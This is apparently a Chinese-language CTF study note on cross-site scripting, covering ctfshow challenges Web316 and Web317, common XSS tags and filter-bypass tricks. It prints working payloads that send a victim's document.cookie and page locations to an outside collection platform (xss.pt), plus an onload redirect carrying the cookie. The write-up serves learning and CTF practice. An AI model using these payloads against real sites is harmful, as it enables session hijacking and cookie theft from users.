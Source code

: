 ```yaml
---
author: "Yiming Shen"
date: 2022-02-26
lastmod: 2022-02-26
title: "XSS类型题目积累及资料"
tags: [
    "CTF",
    "XSS",
    "Web",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
showtoc: true
math: true
typora-root-url: ..\..\..\..\static\
---
```


> 跨站脚本（Cross-Site Scripting，XSS）是一种经常出现在 WEB 应用程序中的计算机安全漏洞，是由于 WEB 应用程序对用户的输入过滤不足而产生的。攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

## 反射型XSS

> 反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。

### 无过滤反射型 

#### Web316 - [XSS平台](https://xss.pt)

![image-20220226192829187](/xss.assets/%7D/image-20220226192829187.png)

抓包后cookie提示flag在此，但需要管理员身份。

即生成链接诱骗管理员（本题为BOT）点击获取其cookie。

**借助XSS平台**
平台上放置脚本（可自行搭建）

```php
(function(){(new Image()).src='https://xss.pt/xss.php?do=api&id=Sh8s&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if(''==1){keep=new Image();keep.src='https://xss.pt/xss.php?do=keepsession&id=Sh8s&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
```

[Xss平台](https://xss.pt) 注册登录后创建项目，将其提供的xss代码（引导访问其链接从而存储信息）填入框中，即可获得管理员访问cookie。

![image-20220226201645270](/xss.assets/%7D/image-20220226201645270.png)

### 过滤反射型

#### Web317 - \<onload\>

```html
<BODY ONLOAD=document.location='https://xss.pt/Sh8sp.jpg?cookie='+document.cookie;></body>
```

> **window.onload()** 方法用于在网页加载完毕后立刻执行的操作，即当 HTML 文档加载完毕后，立刻执行某个方法。

#### 空格过滤

换成`/**/`


## 常见执行`XSS`的标签

```html
<script src="*.js"></script>

<script>alert(1)</script>

<img src="s" onerror=alert('xss')></img>

<link rel="import" href="*.html">

<iframe src="javascript:alert(1)"></iframe> <!-JavaScript伪协议->

<a href="javascript:alert(1)">click</a>

<svg/onload=alert(1)>

<h1 onmousemove="alert('moved!')">Title1</h1>
    
<iframe src = "data:text/html;base64,_base64codehere="></iframe> <!-Data伪协议->
```

## XSS过滤和绕过

> XSS主要在**代码层**和**WAF层**实现过滤

### 编码过滤

1. 对payload进行HTML实体编码过滤

   `alert(1)`编码成`&#x61 &#x6c...`

   payload在标签属性中触发事件前，浏览器已经对payload进行了一次解码，即从实体编码转换成了常规数据。

2. 通过闭合JS语句逃逸payload

   `var url = 'http://xss.com/?name=<?=$name?>'+'<?=$address?>';`

   可转义第一个引号使其和第二个参数的引号闭合 在第二个参数内插入payload

3. 

## 参考

[1] [XSS平台的使用](http://zhuabapa.top/2019/12/25/XSS%E5%B9%B3%E5%8F%B0%E4%BD%BF%E7%94%A8/)

[2] [从0到1:CTFer](#xss)